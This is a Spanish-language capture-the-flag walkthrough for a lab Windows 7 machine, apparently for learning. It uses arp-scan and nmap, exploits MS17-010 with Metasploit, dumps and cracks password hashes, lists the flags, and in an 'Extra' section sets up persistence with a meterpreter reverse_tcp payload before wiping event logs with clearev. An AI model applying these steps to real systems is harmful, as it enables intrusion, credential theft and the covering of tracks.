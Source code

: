 # Maquina Eternal

Dificultad --> Facil

Enlace de la maquina --> https://github.com/Rondon-Jesus92/Maquinas-Virtuales-CTF/blob/main/Descarga-de-Maquinas/eternal-VMware.zip

Instrucciones --> Se necesita instalar VMawre Workstation para poder virtualizar la maquina

'

--------------------------------------------------------------------------------------------------------------------------------------------------------------------

'

## 1.Reconocmiento

Utilizamos el comando **--> sudo arp-scan -l <--** para encontrar la dirección IP de la Maquina 💻 victima

[![reconocimiento.jpg](https://i.postimg.cc/RVGV6vBt/reconocimiento.jpg)](https://postimg.cc/1fnZbh4R)

Escaneando puertos y sus versiones utilizando el comando **nmap** con diferentes parámetros a la IP que conseguimos 🔎

[![reconocimiento2.jpg](https://i.postimg.cc/1RK41Gfs/reconocimiento2.jpg)](https://postimg.cc/ThpTrWV4)



[![reconocimiento3.jpg](https://i.postimg.cc/X77qjrCF/reconocimiento3.jpg)](https://postimg.cc/8s9NwPwP)


Convertimos el archivo que se nos genero para visualizarlo mejor con el siguiente comando **--> xsltproc blue-nmap-results.xml -o xsltproc blue-nmap-results.html <--** y luego lo abrimos con el navegador


[![reconocimiento4.jpg](https://i.postimg.cc/rFnmKq1H/reconocimiento4.jpg)](https://postimg.cc/Xp53PSDK)


[![reconocimiento5.jpg](https://i.postimg.cc/G2x3rR3q/reconocimiento5.jpg)](https://postimg.cc/qhgHX933)


### Resumen de la Información Obtenida

|IP             | Sistema OPerativo | Puertos/Servicios                | 
|:------------: |:-----------------:| :-------------------------------:| 
| 192.168.1.17  | Windows 7 ultime  | 135/tcp msrpc                    |
|               |                   | 139/tcp netbios-ssn              |
|               |                   | 445/tcp microsoft-ds             |
|               |                   | 49152-49157/tcp microsoft-rpc    |



## 2. Análisis de Vulnerabilidades / Debilidades

Buscamos un exploit con el comando **--> searchsploit ms17-010 <--** la vulnerabilidad que conseguimos

[![analisis.jpg](https://i.postimg.cc/tTqQ3xyN/analisis.jpg)](https://postimg.cc/McFFxXnn)

## 3. Explotación

Abrimos metasploit con el comando **--> msfconsole <--**, luegos buscamos el exploit MS17-010 con el comando **--> search MS17-010 <--**
Se nos desplegara varias opciones la cual vamos a seleccionar es la N° 0 con el comando **--> use 0 <--**

[![explotacion.jpg](https://i.postimg.cc/qR1fjvvV/explotacion.jpg)](https://postimg.cc/N92P0YXp)

Cambiamos el parametro RHOSTS por la IP de la maquina victima 💻, para luego proceder a ejecutar el exploit 💣


[![explotacion2.jpg](https://i.postimg.cc/ZKBkxZk2/explotacion2.jpg)](https://postimg.cc/xc2F9w13)


Ejecutamos el siguiente comando **--> hashdump <--**

[![explotacion3.jpg](https://i.postimg.cc/sXdCvNHq/explotacion3.jpg)](https://postimg.cc/670mPYXf)

Conseguimos unas credenciales encriptadas las cuales la podemos decifrar en diferentes paginas online como por ejemplo **crackstation**

[![explotacion4.jpg](https://i.postimg.cc/DykV6H2z/explotacion4.jpg)](https://postimg.cc/xqRFTsNr)

Ya tenemos la contraseña del usuario **Hacker Mentor User** y del usuario **Hacker Mentor Admin**, podemos acceder a cada uno de los usuario y en el escritorio vamos a conseguir la **Bandera1** y la **Bandera2**

### Accediendo al usuario Hacker Mentor User


[![bandera1.jpg](https://i.postimg.cc/W36Ctbkq/bandera1.jpg)](https://postimg.cc/vgT3NyXG)


### Accediendo al usuario Hacker Mentor Admin


[![bandera2.jpg](https://i.postimg.cc/wMwrcfF6/bandera2.jpg)](https://postimg.cc/30D93ZP6)



## 4.Banderas 🏁

|Bandera 1 | 0ef3b7d488b11e3e800f547a0765da8e |
|:--------:|:--------------------------------:|
|Bandera 2 | A63c1c39c0c7fd570053343451667939 |


## 5.Extra 🚨

Vamos a proceder a realizar persistencia en esta maquina 💻, ejecutamos el comando **--> getpid <--** y luego **--> ps <--** para ver los procesos que se estan ejecutando

[![persistencia.jpg](https://i.postimg.cc/28R6W0MQ/persistencia.jpg)](https://postimg.cc/vDhbFtQT)


Luego vamos hacer una migración de proceso al 2872 del admin

[![persistencia2.jpg](https://i.postimg.cc/j2Vszjgx/persistencia2.jpg)](https://postimg.cc/2bwRYCNM)

Realizamos un Backgrounding y cambiamos el exploit por el exploit/windows/local/persistence

[![persistencia3.jpg](https://i.postimg.cc/Twn8vJ0x/persistencia3.jpg)](https://postimg.cc/1nR7p6b7)


Seleccionamos el payload windows/x64/meterpreter/reverse_tcp

[![persistencia4.jpg](https://i.postimg.cc/qMkPWn3f/persistencia4.jpg)](https://postimg.cc/V5VZCJg4)

Modificamos el DELAY y la SESSION

[![persistencia5.jpg](https://i.postimg.cc/2y34B2tR/persistencia5.jpg)](https://postimg.cc/9w546tVJ)

Procedemos a Realizar un run

[![persistencia6.jpg](https://i.postimg.cc/vBK4CM0k/persistencia6.jpg)](https://postimg.cc/47z49CkQ)

luego usaremos los siguientes comandos:

**--> use exploir/multi/handler**

**--> set payload windows/x64/meterpreter/reverse_tcp**

[![persistencia7.jpg](https://i.postimg.cc/YS59x8jB/persistencia7.jpg)](https://postimg.cc/DWcnvrqx)

Ahora vamos a proceder a modificar el LHOST por la IP de nuestra maquina 🖥️

[![persistencia8.jpg](https://i.postimg.cc/PrJjPYrW/persistencia8.jpg)](https://postimg.cc/HjqKNJMn)

Verificamos que todos los parametros esten correctos y procedemos hacer run 

[![persistencia9.jpg](https://i.postimg.cc/nMbGbq3y/persistencia9.jpg)](https://postimg.cc/5QgC8Qdg)

A pesar de que la maquina la han reiniciado aun tenemos acceso 🥷, ahora por ultimo vamos a proceder a realizar un borrado de huella 🤫👣 con el comando **--> clearev <--**


[![borradohuella.jpg](https://i.postimg.cc/x8YL69qQ/borradohuella.jpg)](https://postimg.cc/8JKF5QhX)
